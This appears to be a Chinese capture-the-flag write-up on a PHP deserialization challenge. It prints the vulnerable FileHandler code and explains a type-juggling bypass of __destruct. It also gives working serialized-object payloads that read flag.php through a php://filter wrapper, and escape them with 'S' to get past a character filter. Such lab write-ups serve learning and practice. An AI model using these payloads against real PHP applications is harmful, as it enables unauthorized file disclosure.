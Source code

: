 ![](<./img/Pasted image 20221104081222.png>)

好一个一语双关
```php
<?php
include("flag.php");
highlight_file(__FILE__);
class FileHandler
{
	protected $op;
	protected $filename;
	protected $content;
	function __construct()
	{
		$op = "1";
		$filename = "/tmp/tmpfile";
		$content = "Hello World!";
		$this->process();
	}
	public function process()
	{
		if($this->op == "1")
		{
			$this->write();
		}
		else if($this->op == "2")
		{
			$res = $this->read();
			$this->output($res);
		}
		else
		{
			$this->output("Bad Hacker!");
		}
	}
	private function write()
	{
		if(isset($this->filename) && isset($this->content))
		{
			if(strlen((string)$this->content) > 100)
			{
				$this->output("Too long!");
				die();
			}
			$res = file_put_contents($this->filename,
									 $this->content);
			if($res)
			{
				$this->output("Successful!");
			}
			else 
			{
				$this->output("Failed!");
			}
		}
		else
		{
			$this->output("Failed!");
		}
	}
	private function read()
	{
		$res = "";
		if(isset($this->filename))
		{
			$res = file_get_contents($this->filename);
		}
		return $res;
	}
	private function output($s)
	{
		echo "[Result]: <br>";
		echo $s;
	}
	function __destruct()
	{
		if($this->op === "2")
		{
			$this->op = "1";
		}
		$this->content = "";
		$this->process();
	}
}

function is_valid($s)
{
	for($i = 0; $i < strlen($s); $i++)
	{
		if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
		{
			return false;
		}
	}
	return true;
}

if(isset($_GET{'str'}))
{
	$str = (string)$_GET['str'];
	if(is_valid($str))
	{
		$obj = unserialize($str);
	}
}
```
注意到
```php
function __destruct()
{
	if($this->op === "2")
	{
		$this->op = "1";
	}
	$this->content = "";
	$this->process();
}
```
`__destruct`方法中`$this->op`与`"2"`的比较是强类型比较

而
```php
public function process()
{
	if($this->op == "1")
	{
		$this->write();
	}
	else if($this->op == "2")
	{
		$res = $this->read();
		$this->output($res);
	}
	else
	{
		$this->output("Bad Hacker!");
	}
}
```
`process`方法中`$this->op`与`"1"`和`"2"`的比较是弱类型比较绕过

可利用这一点绕过`__deconstruct`的限制
```php
/?str=O:11:"FileHandler":3:{s:5:"%00*%00op";i:2;s:11:"%00*%00filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:10:"%00*%00content";s:3:"123";}
```
发现并没有反应，原来是`%00`被`is_valid`拦截了，搜索发现可通过将序列化文本中的`s`改为`S`来支持16进制转义
```php
/?str=O:11:"FileHandler":3:{S:5:"\00*\00op";i:2;S:11:"\00*\00filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";S:10:"\00*\00content";s:3:"123";}
```
![](<./img/Pasted image 20221104092901.png>)

![](<./img/Pasted image 20221104093055.png>)

#Web #反序列化 #PHP #bypass #LFI
